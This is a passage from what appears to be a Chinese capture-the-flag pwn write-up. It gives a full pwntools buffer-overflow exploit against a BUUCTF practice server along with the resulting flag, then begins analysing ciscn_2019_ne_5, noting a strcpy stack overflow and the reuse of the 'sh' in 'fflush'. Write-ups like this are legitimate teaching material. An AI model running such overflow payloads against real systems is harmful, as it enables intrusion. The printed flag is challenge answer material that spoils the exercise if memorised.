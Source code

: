 ```
good_game_addr = 0x400620
```



直接写exp：

```python
from pwn import *

io = remote('node5.buuoj.cn',26803)

# io = process("./guestbook")

good_game_addr = 0x400620

payload = b'a'*136 + p64(good_game_addr)

io.recvuntil(b'Input your message:\n')

io.sendline(payload)

io.interactive()
```





连上就有;

```
flag{572bd1b5-6b92-4efa-962a-620e02e3302f}
```





## ciscn_2019_ne_5

32位nx



看main函数吓死人，还以为是堆题



有一个比较

```
strcmp(s1, "administrator")
```



Getflag函数里面有一个strcpy栈溢出

函数里面没有/bin/sh，但是可以查找后缀为sh的，也是可以利用

```
LOAD:080482E6 aFflush         db 'fflush',0   
```
